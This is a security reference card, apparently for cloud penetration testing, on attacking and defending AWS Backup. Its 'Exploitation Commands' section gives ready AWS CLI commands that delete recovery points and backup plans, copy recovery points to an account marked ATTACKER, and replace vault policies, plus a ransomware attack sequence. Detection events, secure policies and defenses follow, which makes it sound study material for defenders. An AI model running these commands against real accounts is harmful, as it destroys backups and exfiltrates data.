

#  AWS Backup Security



> **Category**: DISASTER RECOVERY

AWS Backup provides centralized backup management across AWS services. Backup vaults store recovery points that often contain complete copies of production data. Primary target for ransomware and data exfiltration.

## Quick Stats

| Risk Level | Scope | Copy Support | Supported |
| --- | --- | --- | --- |
| **CRITICAL** | **Regional** | **Cross-Acct** | **15+ Services** |

## Service Overview

### Backup Vaults

Logical containers that store and organize recovery points. Vaults can be encrypted with AWS-managed or customer-managed KMS keys. Access policies control who can manage backups.

> Attack note: Vault access policies often allow broad access - check for Principal: * or overly permissive IAM conditions

### Recovery Points

Snapshots of resources at a point in time. Can be restored to original or new resources. Cross-region and cross-account copies enable DR but also attack pivoting.

> Attack note: Recovery points can be copied to attacker-controlled accounts if cross-account copy is enabled

## Security Risk Assessment

`█████████░` **9.0/10** (CRITICAL)

AWS Backup is a prime ransomware target. Attackers delete or encrypt backups before encrypting production data, eliminating recovery options. Cross-account copies can exfiltrate entire environments.

## ⚔️ Attack Vectors

### Ransomware Operations

- Delete all recovery points before encryption
- Disable backup plans to stop new backups
- Delete backup vaults entirely
- Modify lifecycle to expire backups immediately
- Remove vault lock to enable deletion

### Data Exfiltration

- Copy recovery points to attacker account
- Restore backups to attacker-controlled resources
- Export backup metadata for reconnaissance
- Cross-region copy to unmonitored regions
- Share recovery points with external accounts

## ⚠️ Misconfigurations

### Vault Access Issues

- Vault access policy allows Principal: *
- No vault lock enabled (backups deletable)
- Cross-account access without conditions
- Missing MFA delete requirement
- Overly permissive IAM backup permissions

### Operational Issues

- No encryption or AWS-managed keys only
- Backup plans not covering all resources
- Short retention periods
- No cross-region/account copies for DR
- Missing CloudTrail monitoring

## 🔍 Enumeration

**List Backup Vaults**
```bash
aws backup list-backup-vaults
```

**List Recovery Points**
```bash
aws backup list-recovery-points-by-backup-vault \\
  --backup-vault-name Default
```

**Get Vault Access Policy**
```bash
aws backup get-backup-vault-access-policy \\
  --backup-vault-name Default
```

**List Backup Plans**
```bash
aws backup list-backup-plans
```

**Describe Recovery Point**
```bash
aws backup describe-recovery-point \\
  --backup-vault-name Default \\
  --recovery-point-arn <arn>
```

## 💀 Ransomware Attack Chain

### Attack Sequence

- 1. Enumerate all backup vaults and recovery points
- 2. Check for vault locks (if locked, skip deletion)
- 3. Delete all recovery points in each vault
- 4. Delete or disable backup plans
- 5. Encrypt production data
- 6. Demand ransom with no recovery option

> **Critical:** If vault lock is not enabled, attackers can delete years of backups in minutes. Always enable vault lock in compliance mode.

## 📤 Data Exfiltration

### Cross-Account Copy

- Copy recovery point to attacker AWS account
- Restore in attacker account at leisure
- No visibility in victim CloudTrail
- Bypass network-based DLP controls
- Access complete point-in-time data

### Restore-Based Exfil

- Restore EBS snapshot to new volume
- Restore RDS to new instance
- Restore EC2 AMI and access data
- Restore DynamoDB table and export
- Restore EFS and sync to S3

## 🛡️ Detection

### CloudTrail Events

- DeleteRecoveryPoint - backup deleted
- DeleteBackupVault - vault deleted
- StartCopyJob - cross-account copy
- StartRestoreJob - restore initiated
- PutBackupVaultAccessPolicy - policy changed

### Indicators of Compromise

- Mass deletion of recovery points
- Cross-account copy to unknown accounts
- Vault access policy modifications
- Backup plan deletions or disabling
- Unusual restore operations

## Exploitation Commands

**Delete Recovery Point (Ransomware)**
```bash
aws backup delete-recovery-point \\
  --backup-vault-name Default \\
  --recovery-point-arn arn:aws:backup:us-east-1:123456789012:recovery-point:xxx
```

**Copy to Attacker Account (Exfil)**
```bash
aws backup start-copy-job \\
  --recovery-point-arn <victim-arn> \\
  --source-backup-vault-name Default \\
  --destination-backup-vault-arn arn:aws:backup:us-east-1:ATTACKER:backup-vault:exfil \\
  --iam-role-arn arn:aws:iam::123456789012:role/BackupRole
```

**Delete Backup Plan**
```bash
aws backup delete-backup-plan --backup-plan-id <plan-id>
```

**Restore EBS to New Volume**
```bash
aws backup start-restore-job \\
  --recovery-point-arn <arn> \\
  --iam-role-arn <role-arn> \\
  --metadata AvailabilityZone=us-east-1a
```

**List All Recovery Points (Recon)**
```bash
for vault in $(aws backup list-backup-vaults --query 'BackupVaultList[].BackupVaultName' --output text); do
  echo "=== $vault ==="
  aws backup list-recovery-points-by-backup-vault --backup-vault-name $vault
done
```

**Modify Vault Access Policy**
```bash
aws backup put-backup-vault-access-policy \\
  --backup-vault-name Default \\
  --policy file://malicious-policy.json
```

## Policy Examples

### ❌ Dangerous - Cross-Account Without Restrictions

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Principal": "*",
    "Action": [
      "backup:CopyIntoBackupVault",
      "backup:StartCopyJob"
    ],
    "Resource": "*"
  }]
}
```

*Anyone can copy backups in or out - full exfiltration risk*

### ✅ Secure - Organization Restricted

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Principal": "*",
    "Action": "backup:CopyIntoBackupVault",
    "Resource": "*",
    "Condition": {
      "StringEquals": {
        "aws:PrincipalOrgID": "o-xxxxxxxxxx"
      }
    }
  }]
}
```

*Only accounts within the organization can copy backups*

### ❌ Risky - No Deletion Protection

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Principal": {"AWS": "arn:aws:iam::123456789012:root"},
    "Action": "backup:*",
    "Resource": "*"
  }]
}
```

*Full backup access without vault lock - ransomware vulnerable*

### ✅ Secure - Deny Delete Actions

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Deny",
    "Principal": "*",
    "Action": [
      "backup:DeleteRecoveryPoint",
      "backup:DeleteBackupVault",
      "backup:PutBackupVaultAccessPolicy"
    ],
    "Resource": "*"
  }]
}
```

*Explicitly deny destructive actions - combine with vault lock*

## Defense Recommendations

### 🔒 Enable Vault Lock (Compliance Mode)

Prevents deletion of recovery points even by root. Use compliance mode for immutable backups.

```bash
aws backup put-backup-vault-lock-configuration \\
  --backup-vault-name Critical \\
  --min-retention-days 7 \\
  --max-retention-days 365 \\
  --changeable-for-days 3
```

### 🔐 Use Customer-Managed KMS Keys

Encrypt backups with CMK and restrict key access to prevent unauthorized restore.

```bash
aws backup create-backup-vault \\
  --backup-vault-name Secure \\
  --encryption-key-arn arn:aws:kms:...:key/xxx
```

### 🚫 Restrict Cross-Account Copy

Only allow copies within your AWS Organization using org ID condition.

```bash
"Condition": {"StringEquals": {"aws:PrincipalOrgID": "o-xxx"}}
```

### 📝 Monitor Backup Operations

Alert on DeleteRecoveryPoint, DeleteBackupVault, and cross-account StartCopyJob events.

### 🔄 Cross-Region/Account DR Copies

Maintain copies in separate accounts with different credentials for true isolation.

### ⚠️ SCP Deny Backup Deletion

Use Service Control Policy to deny backup deletion across all accounts.

```bash
"Effect": "Deny", "Action": ["backup:DeleteRecoveryPoint", "backup:DeleteBackupVault"]
```

---

*AWS Backup Security Card*

*Always obtain proper authorization before testing*
